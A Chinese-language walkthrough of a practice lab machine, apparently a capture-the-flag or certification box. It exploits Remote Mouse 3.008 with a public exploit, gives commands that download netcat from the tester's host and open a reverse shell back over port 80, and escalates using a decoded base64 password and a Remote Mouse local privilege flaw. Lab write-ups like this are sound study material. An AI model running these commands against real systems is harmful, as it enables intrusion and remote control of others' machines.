










# 信息收集

## nmap



# 1978-remote mouse

可以查到remote mouse存在漏洞，可以命令执行

[p0dalirius/RemoteMouse-3.008-Exploit](./https://github.com/p0dalirius/RemoteMouse-3.008-Exploit)

防火墙对端口做了限制，尝试了一下80端口是可行的

```
python3 RemoteMouse-3.008-Exploit.py -t 192.168.216.199 -v -c "powershell wget http://192.168.45.222/nc64.exe -outfile C:\Windows\temp\nc.exe"

python3 RemoteMouse-3.008-Exploit.py -t 192.168.216.199 -v -c " C:\Windows\temp\nc.exe -e cmd 192.168.45.222 80" 
```



# 提权

搜索了一下其中喊pass的文件



在divine用户下存在一个xml文件，其中有密码的base64加密，解密之后是`ControlFreak11`，该用户又在远程登录组中，使用远程桌面连接

桌面有一个`Remote Mouse`软件，搜索了一下该软件存在本地权限提升漏洞





需要在远程桌面上的系统菜单打开remote mouse,我这里点开一直是空，做不了后续了，这里是别人的截图

打开之后按照POC中的方法就可以提权







